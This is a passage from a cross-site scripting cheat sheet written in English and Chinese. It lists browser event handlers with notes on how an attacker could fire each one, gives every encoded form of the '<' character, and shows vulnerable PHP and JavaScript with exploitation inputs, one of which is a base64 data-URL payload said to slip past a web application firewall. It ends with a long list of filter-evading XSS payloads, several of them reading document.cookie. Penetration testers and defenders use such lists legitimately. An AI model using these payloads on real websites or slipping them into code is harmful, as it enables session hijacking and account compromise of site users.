76. `onPropertyChange()` (user or attacker would need to change an element property)
77. `onReadyStateChange()` (user or attacker would need to change an element property)
78. `onRedo()` (user went forward in undo transaction history)
79. `onRepeat()` (the event fires once for each repetition of the timeline, excluding the first full cycle)
80. `onReset()` (user or attacker resets a form)
81. `onResize()` (user would resize the window; attacker could auto initialize with something like: `<SCRIPT>self.resizeTo(500,400);</SCRIPT>`)
82. `onResizeEnd()` (user would resize the window; attacker could auto initialize with something like: `<SCRIPT>self.resizeTo(500,400);</SCRIPT>`)
83. `onResizeStart()` (user would resize the window; attacker could auto initialize with something like: `<SCRIPT>self.resizeTo(500,400);</SCRIPT>`)
84. `onResume()` (the onresume event fires on every element that becomes active when the timeline resumes, including the body element)
85. `onReverse()` (if the element has a repeatCount greater than one, this event fires every time the timeline begins to play backward)
86. `onRowsEnter()` (user or attacker would need to change a row in a data source)
87. `onRowExit()` (user or attacker would need to change a row in a data source)
88. `onRowDelete()` (user or attacker would need to delete a row in a data source)
89. `onRowInserted()` (user or attacker would need to insert a row in a data source)
90. `onScroll()` (user would need to scroll, or attacker could use the `scrollBy()` function)
91. `onSeek()` (the onreverse event fires when the timeline is set to play in any direction other than forward)
92. `onSelect()` (user needs to select some text - attacker could auto initialize with something like: `window.document.execCommand("SelectAll");`)
93. `onSelectionChange()` (user needs to select some text - attacker could auto initialize with something like: `window.document.execCommand("SelectAll");`)
94. `onSelectStart()` (user needs to select some text - attacker could auto initialize with something like: `window.document.execCommand("SelectAll");`)
95. `onStart()` (fires at the beginning of each marquee loop)
96. `onStop()` (user would need to press the stop button or leave the webpage)
97. `onStorage()` (storage area changed)
98. `onSyncRestored()` (user interrupts the element’s ability to play its media as defined by the timeline to fire)
99. `onSubmit()` (requires attacker or user submits a form)
100. `onTimeError()` (user or attacker sets a time property, such as dur, to an invalid value)
101. `onTrackChange()` (user or attacker changes track in a playList)
102. `onUndo()` (user went backward in undo transaction history)
103. `onUnload()` (as the user clicks any link or presses the back button or attacker forces a click)
104. `onURLFlip()` (this event fires when an Advanced Streaming Format (ASF) file, played  by a HTML+TIME (Timed Interactive Multimedia Extensions) media tag,  processes script commands embedded in the ASF file)
105. `seekSegmentTime()` (this is a method that locates the specified point on the element’s  segment time line and begins playing from that point. The segment  consists of one repetition of the time line including reverse play using the AUTOREVERSE attribute.)

#### Character Escape Sequences

> All the possible combinations of the character “<” in HTML and JavaScript. Most of these won’t render out of the box, but many of them can get rendered in certain circumstances as seen above.

    <
    %3C
    &lt
    &lt;
    &LT
    &LT;
    &#60
    &#060
    &#0060
    &#00060
    &#000060
    &#0000060
    &#60;
    &#060;
    &#0060;
    &#00060;
    &#000060;
    &#0000060;
    &#x3c
    &#x03c
    &#x003c
    &#x0003c
    &#x00003c
    &#x000003c
    &#x3c;
    &#x03c;
    &#x003c;
    &#x0003c;
    &#x00003c;
    &#x000003c;
    &#X3c
    &#X03c
    &#X003c
    &#X0003c
    &#X00003c
    &#X000003c
    &#X3c;
    &#X03c;
    &#X003c;
    &#X0003c;
    &#X00003c;
    &#X000003c;
    &#x3C
    &#x03C
    &#x003C
    &#x0003C
    &#x00003C
    &#x000003C
    &#x3C;
    &#x03C;
    &#x003C;
    &#x0003C;
    &#x00003C;
    &#x000003C;
    &#X3C
    &#X03C
    &#X003C
    &#X0003C
    &#X00003C
    &#X000003C
    &#X3C;
    &#X03C;
    &#X003C;
    &#X0003C;
    &#X00003C;
    &#X000003C;
    \x3c
    \x3C
    \u003c
    \u003C


**常用属性：**
  src
  action
  href
  data
  content 
  anytag

  **javascript弹窗函数：**
  alert()
  confirm()
  prompt() 
  write()
  setTimeout()





- ### WAF(⑧懂)

**Stored XSS**

If an attacker managed to push XSS through the filter, WAF wouldn’t be able to prevent the attack conduction.

**Reflected XSS in Javascript**

```
Example: <script> ... setTimeout(\\"writetitle()\\",$\_GET\[xss\]) ... </script>
Exploitation: /?xss=500); alert(document.cookie);//
```

**DOM-based XSS**

```
Example: <script> ... eval($\_GET\[xss\]); ... </script>
Exploitation: /?xss=document.cookie
```

**XSS via request Redirection**

- Vulnerable code:

```
...
header('Location: '.$_GET['param']);
...
```

As well as:

```
..
header('Refresh: 0; URL='.$_GET['param']); 
...
```

- This request will not pass through the WAF:

```
/?param=<javascript:alert(document.cookie>)
```

- This request will pass through the WAF and an XSS attack will be conducted in certain browsers.

```
/?param=<data:text/html;base64,PHNjcmlwdD5hbGVydCgnWFNTJyk8L3NjcmlwdD4=
```

例：

> - `<Img src = x onerror = "javascript: window.onerror = alert; throw XSS">`
> - `<Video> <source onerror = "javascript: alert (XSS)">`
> - `<Input value = "XSS" type = text>`
> - `<applet code="javascript:confirm(document.cookie);">`
> - `<isindex x="javascript:" onmouseover="alert(XSS)">`
> - `"></SCRIPT>”>’><SCRIPT>alert(String.fromCharCode(88,83,83))</SCRIPT>`
> - `"><img src="x:x" onerror="alert(XSS)">`
> - `"><iframe src="javascript:alert(XSS)">`
> - `<object data="javascript:alert(XSS)">`
> - `<isindex type=image src=1 onerror=alert(XSS)>`
> - `<img src=x:alert(alt) onerror=eval(src) alt=0>`
> - `<img src="x:gif" onerror="window['al\u0065rt'](0)"></img>`
> - `<iframe/src="data:text/html,<svg onload=alert(1)>">`
> - `<meta content=" 1  ; JAVASCRIPT: alert(1)" http-equiv="refresh"/>`
> - `<svg><script xlink:href=data:,window.open('https://www.google.com/')></script`
> - `<meta http-equiv="refresh" content="0;url=javascript:confirm(1)">`
> - `<iframe src=javascript:alert(document.location)>`
> - `<form><a href="javascript:\u0061lert(1)">X`
> - `</script><img/*%00/src="worksinchrome:prompt(1)"/%00*/onerror='eval(src)'>`
> - `<style>//*{x:expression(alert(/xss/))}//<style></style>`
> - On Mouse Over
> - `<img src="/" =_=" title="onerror='prompt(1)'">`
> - `<a aa aaa aaaa aaaaa aaaaaa aaaaaaa aaaaaaaa aaaaaaaaa aaaaaaaaaa href=javascript:alert(1)>ClickMe`
> - `<script x> alert(1) </script 1=2`
> - `<form><button formaction=javascript:alert(1)>CLICKME`
> - `<input/onmouseover="javaSCRIPT:confirm(1)"`
> - `<iframe src="data:text/html,%3C%73%63%72%69%70%74%3E%61%6C%65%72%74%28%31%29%3C%2F%73%63%72%69%70%74%3E"></iframe>`
> - `<OBJECT CLASSID="clsid:333C7BC4-460F-11D0-BC04-0080C7055A83"><PARAM NAME="DataURL" VALUE="javascript:alert(1)"></OBJECT> `













